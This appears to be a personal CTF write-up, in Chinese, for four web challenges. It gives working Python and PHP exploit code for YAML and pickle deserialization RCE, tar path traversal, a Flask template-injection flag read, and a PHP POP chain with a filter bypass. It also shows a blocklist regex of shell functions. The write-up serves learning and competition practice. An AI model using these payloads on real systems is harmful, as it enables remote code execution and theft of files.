

tags:: [[CTF/Python/YAML]], [[CTF/Python/Pickle]]

- # ezyaml
	- 思路
		- 利用tar创建config文件夹，然后使用[yaml反序列化]([[CTF/Python/YAML]])完成RCE
	- 利用tar创建config文件夹
		- 原理
			- 在tar文件中创建一个文件路径为`../../config/config.yaml`的文件，这样在python解压时就会自动创建config文件夹
		- 构造
			- 首先创建`aaa/bbb/`文件夹和`config/config.yaml`文件
			- 进入`aaa/bbb/`执行`tar --absolute-names  -cvf config.tar ../../config/config.yaml`得到一个tar文件
			- 然后传上去即可
				- ```python
				  with open("aaa/bbb/config.tar", "rb") as f:
				      r = requests.post(url + "upload", files = {
				          "file": f
				      })
				      # print(r.text)
				  
				  ```
	- Yaml反序列化
		- 写好的waf函数并没有使用
		- ```python
		  content = """
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		      "sleep 2"
		  )
		  
		  r = requests.post(url + "upload", files = {
		      "file": ("data.yaml", content)
		  })
		  print(r.text)
		  
		  r = requests.get(url + "src", params = {
		      "username": "../uploads/data"
		  })
		  print(r.text)
		  
		  ```
- # ArkNights
	- 读`/proc/1/environ`
- # Serpent
	- 看到cookie中有secret，尝试伪造后得到`/ppppppppppick1e`
	- 访问看到headers里中的hint, 拿到部分源码
		- ```python
		  @app.route('/src0de')
		  def src0de():
		      f = open(__file__, 'r')
		      rsp = f.read()
		      f.close()
		      return rsp[rsp.index("@app.route('/src0de')"):]
		  
		  @app.route('/ppppppppppick1e')
		  def ppppppppppick1e():
		      try:
		          username = "admin"
		          rsp = make_response("Hello, %s " % username)
		          rsp.headers['hint'] = "Source in /src0de"
		          pick1e = request.cookies.get('pick1e')
		          if pick1e is not None:
		              pick1e = base64.b64decode(pick1e)
		          else:
		              return rsp
		          if check(pick1e):
		              pick1e = pickle.loads(pick1e)
		              return "Go for it!!!"
		          else:
		              return "No Way!!!"
		      except Exception as e:
		          error_message = str(e)
		          return error_message
		  
		      return rsp
		  
		  class GWHT():
		      def __init__(self):
		          pass
		  
		  if __name__ == '__main__':
		      app.run('0.0.0.0', port=80)
		  
		  ```
	- fuzz发现check函数过滤了`R`（也就是`__reduce__`)，在[https://zhuanlan.zhihu.com/p/89132768](https://zhuanlan.zhihu.com/p/89132768)看到一个不用reduce的RCE技巧，照着构造payload即可实现RCE
		- ```python
		  url = "http://80.endpoint-81b810b13d8a458daf70bf36210ea9e3.m.ins.cloud.dasctf.com:81//ppppppppppick1e"
		  
		  def cmd_payload(cmd):
		      payload = b'\x80\x03c__main__\nGWHT\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.'.replace(b"ls /", cmd.encode())
		      return payload
		  r = base_get(url, cookies = {
		      "pick1e": enc_dec.base64_encode(cmd_payload("ls /bin/python3 && sleep 2"))
		  })
		  print("_")
		  ```
	- 但是这一题RCE之后既不能产生回显，又不能出网，还得想办法读flag
	- 这里选择调用flask的`render_template_string`渲染一个恶意的模板，通过模板拿到eval函数并构造一个报错信息，通过报错信息带出回显，看到flag
		- 虽然这里应该是这题的docker配置出错导致我们有权限直接读取flag...
		- ```python
		  url = "http://80.endpoint-81b810b13d8a458daf70bf36210ea9e3.m.ins.cloud.dasctf.com:81//ppppppppppick1e"
		  
		  def cmd_payload(cmd):
		      payload = b'\x80\x03c__main__\nGWHT\n)\x81}(V__setstate__\ncflask\nrender_template_string\nubVls /\nb.'.replace(b"ls /", cmd.encode())
		      return payload
		  
		  eval_payload = "{}[open('/flag').read()]"
		  
		  r = base_get(url, cookies = {
		      "pick1e": enc_dec.base64_encode(cmd_payload("{{(g.pop.__globals__.__builtins__.eval('EVAL'))}}".replace("EVAL", eval_payload.replace("'", "\\'"))))
		  })
		  s = r.text
		  print(s)
		  ```
- # D0n't pl4y g4m3!!!
  id:: 64f2a4b1-ae66-4b1e-9a95-744f30a923cb
	- `php -S`源码泄漏
		- https://cloud.tencent.com/developer/article/2235691?areaSource=102001.17&traceId=tI_nnwwNe3lbaVzfWNtrS
		- 
	- 构造payload
		- ```php
		  <?php
		  // header("HTTP/1.1 302 found");
		  // header("Location:https://passer-by.com/pacman/");
		  
		  class Pro{
		      private $exp;
		      private $rce2;
		  
		      public function __get($name)
		      {
		          return $this->$rce2=$this->exp[$rce2];
		      }
		      public  function __toString()
		      {
		              call_user_func('system', "cat /flag");
		       }
		  }
		  
		  class Yang
		  {
		      public function __call($name, $ary)
		      {   
		          echo "Yang::__call($name, $ary)";
		          if ($this->key === true || $this->finish1->name) {
		              if ($this->finish->finish) {
		                  call_user_func($this->now[$name], $ary[0]);
		              }
		          }
		      }
		      public function ycb()
		      {
		          echo "Yang::ycb()";
		          $this->now = 0;
		          var_dump($this->finish->finish);
		          return $this->finish->finish;
		      }
		      public function __wakeup()
		      {
		          $this->key = True;
		      }
		  }
		  class Cheng
		  {
		      private $finish;
		      public $name;
		      public function __get($value)
		      {
		  
		          return $this->$value = $this->name[$value];
		      }
		      public function setFinish()
		      {
		          $this -> finish = true;
		      }
		  }
		  class Bei
		  {
		      public function __destruct()
		      {
		          if ($this->CTF->ycb()) {
		              echo "if (\$this->CTF->ycb()) {";
		              $this->fine->YCB1($this->rce, $this->rce1);
		          }
		      }
		      public function __wakeup()
		      {
		          $this->key = false;
		      }
		  }
		  
		  // Bei::__destruct --> Yang::__call
		  // Yang: 绕过wakeup
		  // call_user_func($this->now[$name], $ary[0]);
		  
		  $cheng = new Cheng();
		  $cheng -> name = [
		      "finish" => true
		  ];
		  
		  $yang = new Yang();
		  $yang -> key = true;
		  $yang -> finish1 = $cheng;
		  $yang -> finish = $cheng;
		  $yang -> now = [
		      "YCB1" => "system"
		  ];
		  $bei = new Bei();
		  $bei -> CTF = new Yang();
		  $bei -> CTF -> finish = new Cheng();
		  $bei -> CTF -> finish -> name = [
		      "finish" => true
		  ];
		  $bei -> fine = $yang;
		  $bei -> rce = "cat /tmp/catcatf1ag.txt";
		  $bei -> rce1 = "x";
		  
		  echo "payload" . "start" .  base64_encode(serialize($bei)) . "stop";
		  
		  function prohib($a){
		      $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
		      return preg_replace($filter,'',$a);
		  }
		  
		  $a = $_POST["CTF"];
		  if (isset($a)){
		    unserialize(prohib($a));
		  }
		  ?>
		  ```
	- 最后使用`S:\d:`的形式转义其中的system字段
		- ```python
		  url = "http://tcp.cloud.dasctf.com:25874/p0p.php"
		  
		  r = base_get("http://127.0.0.1:8081")
		  result = re.search("payloadstart(.+)stop", r.text)
		  payload = result.group(1)
		  payload = enc_dec.base64_decode(payload)
		  for result in re.finditer('s:\d+:"([A-Za-z0-9]+)";', payload):
		      if not re.search('(system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag)', result.group(0)):
		          continue
		      raw_content = result.group(1)
		      content = "".join("\\" + hex(ord(c))[2:] for c in raw_content)
		      payload = payload.replace(
		          result.group(0),
		          "S" + result.group(0)[1:5] + content + '";'
		      )
		      print(result)
		  r = base_post(url, data = {
		      "CTF": payload
		  }, allow_redirects = False)
		  print(r.headers)
		  print(r.text)
		  ```